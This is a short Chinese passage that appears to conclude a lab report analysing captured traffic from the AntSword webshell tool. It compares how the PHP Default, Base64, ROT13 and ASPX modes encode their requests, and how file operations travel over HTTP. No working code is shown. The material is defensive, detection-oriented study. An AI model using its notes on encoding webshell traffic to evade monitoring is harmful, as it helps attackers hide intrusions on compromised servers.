通过 Wireshark 对蚁剑不同 WebShell 类型产生的通信流量进行抓取和分析，发现不同载荷类型具有不同的编码方式和流量特征。其中，PHP Default 模式下通信数据中能够直接观察到 PHP 执行代码，具有较明显的 WebShell 特征；PHP Base64 模式通过 `base64_decode()` 对通信数据进行编码处理，使请求参数表现为 Base64 字符串，提高了数据隐藏性；PHP ROT13 模式通过 `str_rot13()` 对数据进行字符替换，虽然不会改变数据长度，但能够改变原始代码特征；ASPX Default 模式则依赖 ASP.NET 提供的文件操作类完成相关功能，在流量中表现出与 PHP WebShell 不同的 .NET 类调用特征。

通过对目录浏览、文件上传、文件读取、文件修改以及文件删除等操作的流量分析，可以发现不同类型 WebShell 虽然实现方式不同，但整体通信流程具有相似性，均由客户端发送 HTTP 请求，将操作指令或数据封装在请求参数中，服务器端 WebShell 接收请求后执行对应操作，并将结果通过 HTTP 响应返回客户端。
